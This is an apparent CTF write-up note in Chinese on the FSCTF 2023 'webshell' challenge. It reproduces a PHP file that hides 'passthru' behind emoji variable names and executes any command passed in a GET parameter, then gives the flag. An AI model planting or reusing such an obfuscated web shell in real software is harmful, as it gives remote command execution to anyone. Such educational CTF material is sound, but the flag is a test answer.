

---
tags:
  - notes
comments: true
dg-publish: true
---

## FSCTF 2023

### webshell是啥捏

> 题目：https://www.nssctf.cn/problem/4609

```php title="pasthru.php"
<?php
highlight_file(__FILE__);
$😀="a";
$😁="b";
$😂="c";
$🤣="d";
$😃="e";
$😄="f";
$😅="g";
$😆="h";
$😉="i";
$😊="j";
$😋="k";
$😎="l";
$😍="m";
$😘="n";
$😗="o";
$😙="p";
$😚="q";
$🙂="r";
$🤗="s";
$🤩="t";
$🤔="u";
$🤨="v";
$😐="w";
$😑="x";
$😶="y";
$🙄="z";

$😭 = $😙. $😀. $🤗. $🤗. $🤩. $😆. $🙂. $🤔;

if (isset($_GET['👽'])) {
    eval($😭($_GET['👽']));
};

?>
```

> [devv 的理解](https://devv.ai/search?threadId=dy23i732zaww)

可以发现 `$😭` 实际上表示 [pasthru](https://www.php.net/manual/en/function.passthru.php)，是 php 一个类似于 exec() 的函数；也就是说，他会执行👽。那么我们让👽=command 就好，直接查看所有文件：



> [!FLAG]
>
> FSCTF{h3llo_ctfe2_5ign_in_webshell_Is_e@sy_right}

